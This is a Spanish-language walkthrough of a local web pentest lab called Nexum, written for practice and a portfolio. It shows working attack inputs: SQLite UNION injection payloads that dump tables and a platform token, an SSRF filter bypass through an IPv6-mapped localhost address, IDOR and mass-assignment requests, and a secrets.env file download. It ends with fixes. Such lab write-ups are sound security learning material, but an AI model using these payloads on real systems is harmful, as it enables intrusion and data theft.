



# Nexum — mi write-up

Lab local de pentest web. Node + Express + SQLite.  
Lo jugué en **http://127.0.0.1:6100** con `morgan@acme.corp` / `Acme2025!Staging`.

---

## Cómo empecé

Entré, miré la consola y capturé tráfico con Burp.
Lo primero útil fue el footer: **security.txt** → te manda a `/developers/v2/spec.json`. Ahí ves parte de la API v2 (`search`, `documents`, `webhooks`…) pero dice que el schema completo es solo para enterprise. Traducción: **falta documentación**, hay más rutas.

También abrí `/product` (habla de *export controls*) y el **audit log** en la consola — en Burp ves que llama a `GET /api/v2/audit`.

---

## IDOR

en el reconocimiento me econtre con el endpoint /api/v2/documents/id 

Probé:

```
GET /api/v2/documents/doc_helix_mna_draft
```

Y leí el documento de Helix (M&A confidencial). IDOR  — no comprueba que el doc sea de tu `org_id`.

---

## SQLi en el buscador

En `/console/search` el front llama a:

```
GET /api/v2/search?q=...
```

probe primero con la comilla 

- `'` → la respuesta cambia / error
- `' OR '1'='1` → muchos más resultados
- `test' AND '1'='2` → casi nada

luego probe payloads para poder ver las tablas de la base de datos , intente con payloads de mysql pero no daba resultado , intente con sqlite y me listo las tablas 



La query devuelve **4 columnas**: `id`, `title`, `classification`, `org_id`. Todo UNION tiene que cuadrar con eso.

```
' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master WHERE type='table'--
' UNION SELECT name,NULL,NULL,NULL FROM pragma_table_info('users')--
```

En una tabla llamada `platform_config` hay 2 columnas, `key` y `value`. Ahí sale el `platform_token` y el hint de la ruta `/internal/v1/platform/flag`:



Copiamos el platform token y hacemos una petición al endpoint con curl:

```bash
curl http://localhost:6100/internal/v1/platform/flag \
  -H "X-Platform-Token: nxpt_56f6dd32ec8d6454008765242b156377"
```

Nos devuelve la flag:



```json
{"flag":"NEXUM{platform_vault_chain_complete}"}
```

---

## SSRF en webhooks

En Developers hay un "test webhook": `POST /api/v2/webhooks/test` con `targetUrl`.

Si mandas `http://localhost:6100/...` → **blocked host**. El filtro bloquea `localhost`, `127.0.0.1`, etc.

Lo que sí pasó:

```json
{"targetUrl":"http://[::ffff:127.0.0.1]:6100/internal/v1/config"}
```

El servidor hace el request **desde dentro** y te devuelve el body en `detail` — ahí sale el `platform_token` otra vez.

También probé antes `GET /internal/v1/config` directo → **403**. Eso confirma que existe algo en `/internal/` pero no te deja entrar desde fuera. El SSRF es para eso: que el servidor se llame a sí mismo.

---


## Otras cosas que encontré

**Mass assignment** — `PATCH /api/v2/account` acepta `org_role`, `org_id` en el JSON. Puedes ponerte admin de la org.

**Invites** — en `POST /join` o `/api/v2/invites/redeem` mandas `role: org_admin` en el body y te lo acepta.

**API keys** — creas una key con scope `read` y con esa misma key puedes `DELETE` documentos. El scope no se respeta.

**exports/download** — `GET /api/v2/exports/download?file=secrets.env` (vuln secundaria, no hace falta para la flag).

---

## Mi cadena para la flag (resumen)

```
Login
  → security.txt + spec.json (recon)
  → SQLi en search → platform_token
  → (opcional) audit → IDOR doc Helix
  → X-Forwarded-For + X-Platform-Token → flag
```

Alternativa: SSRF a `/internal/v1/config` en vez de SQLi para el token.

---

## Qué usaría otra vez

- Burp (obligatorio)
- ffuf o gobuster (fuzz de rutas / endpoints)
- curl para repetir peticiones (SQLi, flag con `X-Platform-Token`)

---

## Si lo arreglaran

- Parametrizar el SQL del search
- Comprobar `org_id` en documentos
- No filtrar IDs ajenos en audit
- SSRF: allowlist + bloquear bypass de IP
- No confiar en `X-Forwarded-For` para APIs internas
- Allowlist en campos de account/invites

---

*Lab educativo local. Lo hice para practicar y para portfolio.*
